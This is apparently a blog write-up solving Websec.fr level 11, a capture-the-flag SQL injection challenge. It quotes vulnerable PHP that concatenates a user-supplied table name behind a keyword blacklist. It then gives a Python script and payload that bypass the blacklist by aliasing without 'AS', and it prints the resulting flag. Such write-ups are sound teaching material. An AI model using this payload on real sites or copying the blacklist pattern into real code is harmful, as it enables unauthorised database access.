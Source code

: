 ```yaml
---
title: Websec.fr level 11 - easy
date: October 21, 2024 00:00:00
author: Elad
categories: [Write-ups]
tags: [Websec.fr]
---
```


# The level
![image](https://github.com/user-attachments/assets/f12df14c-79aa-4d2a-a4c9-a44785e77636)


```php
<?php
ini_set('display_errors', 'on');
ini_set('error_reporting', E_ALL);

function sanitize($id, $table) {
    /* Rock-solid: https://secure.php.net/manual/en/function.is-numeric.php */
    if (! is_numeric ($id) or $id < 2) {
        exit("The id must be numeric, and superior to one.");
    }

    /* Rock-solid too! */
    $special1 = ["!", "\"", "#", "$", "%", "&", "'", "*", "+", "-"];
    $special2 = [".", "/", ":", ";", "<", "=", ">", "?", "@", "[", "\\", "]"];
    $special3 = ["^", "_", "`", "{", "|", "}"];
    $sql = ["union", "0", "join", "as"];
    $blacklist = array_merge ($special1, $special2, $special3, $sql);
    foreach ($blacklist as $value) {
        if (stripos($table, $value) !== false)
            exit("Presence of '" . $value . "' detected: abort, abort, abort!\n");
    }
}

if (isset ($_POST['submit']) && isset ($_POST['user_id']) && isset ($_POST['table'])) {
    $id = $_POST['user_id'];
    $table = $_POST['table'];

    sanitize($id, $table);

    $pdo = new SQLite3('database.db', SQLITE3_OPEN_READONLY);
    $query = 'SELECT id,username FROM ' . $table . ' WHERE id = ' . $id;
    //$query = 'SELECT id,username,enemy FROM ' . $table . ' WHERE id = ' . $id;

    $getUsers = $pdo->query($query);
    $users = $getUsers->fetchArray(SQLITE3_ASSOC);

    $userDetails = false;
    if ($users) {
        $userDetails = $users;
    $userDetails['table'] = htmlentities($table);
    }
}
?>
```

Ok! so we are not let to use join, union, as, or anything that is legitimate for sql injection. What will we do ?

## No need for "AS" to get the actual information
In SQL aliasing, you don't have to use as to alias. For instance, if I do
```sql
select 3 elad from children
```
it would actually be
```sql
select 3 as elad from children
```

## Let's go back to the source code
Great, so now we figured we don't need any special words, Let's figure out the request.
The <b>$table</b> variable needs to be an injection of somekind, that gets the enemies. How do we know that ? there are 2 hints:

1. They gave us what the query should actually be in the source code 
    ```php
    $query = 'SELECT id,username FROM ' . $table . 'WHERE id    = ' . $id;
    //$query = 'SELECT id,username,enemy FROM ' .$table . '     WHERE id = ' . $id;
    ```

2. It says in the level itself <b>"Also, I was told that super-heroes have enemies…"</b>

What about the table name we should select from ? Well, it says in the source code of the html
```html
<input type="radio" class="form-control" id="costume" name="table" value="costume" checked>
```
So it's "<b>costume</b>"

Great !!! Let's write the request

## The request
This is the code
```python
from requests import *

url = "https://websec.fr/level11/index.php"

data = {
    'user_id': 2,
    'table': '(select 2 id, enemy username from costume)',
    'submit': 'submit'
}

print(post(url, data=data).text)
```

Simple, right? we send a post request with user_id as 2 and the query is really
```sql
select 2 as id, enemy as username from costume
```

Remember !! we need enemy as username because in the query in the source code the query being executed only picks the id, username from the table. Great !! what is the result ?


```
<!DOCTYPE html>
<html>
<head>
	<title>#WebSec Level Eleven</title>
	<link rel="stylesheet" href="../static/bootstrap.min.css" />
</head>
	<body>
		<div id="main">
			<div class="container">
				<div class="row">
					<h1>LevelEleven <small> - User 1 is likely <a href="https://fr.wikipedia.org/wiki/Capitaine_Flam">Cap'tain fla<s>m</s>g</a>.</small></h1>
				</div>
				<div class="row">
					<p class="lead">
						This application is used to view the username, with or without the costume, of superheroes, by id.<br>
						Also, I was told that super-heroes have <em>enemies</em>…<br>
						<br>
                        			To prevent sql injections, it uses a <em>super-efficient-blacklist-based</em> filter!<br>
                        			No more nasty <mark>UNION</mark> or <mark>JOIN</mark>.<br>
                        			Check the source <a href="./source.php">here </a>.
					</p>
				</div>
			</div>
			<div class="container">
				<div class="row">
					<form name="username" method="post" class="form-inline">
						<div class="form-group">
							<label for="user_id">User ID:</label>
							<input type="number" class="form-control" id="user_id" name="user_id" value="2" required>
						</div>
						<div class="form-group">
							<label class="radio-inline" for="costume">With costume </label>
							<input type="radio" class="form-control" id="costume" name="table" value="costume" checked>

							<label class="radio-inline" for="civil">Without costume </label>
							<input type="radio" class="form-control" id="civil" name="table" value="civil">
						</div>
						<input type="submit" class="form-control btn btn-default" name="submit">
					</form>
				</div>
								<br>
				<div class="row">
					<p class="well">
						The hero number <strong>2</strong>
						in <strong>(select 2 id, enemy username from costume)</strong>
						is <strong>WEBSEC{Who_needs_AS_anyway_when_you_have_sqlite}</strong>.
					</p>
				</div>
							</div>
		</div>
		<script type="text/javascript" src="../static/bootstrap.min.js"></script>
	</body>
</html>


Process finished with exit code 0
```


```
{Who_needs_AS_anyway_when_you_have_sqlite}
```

Thanks for reading !!!!
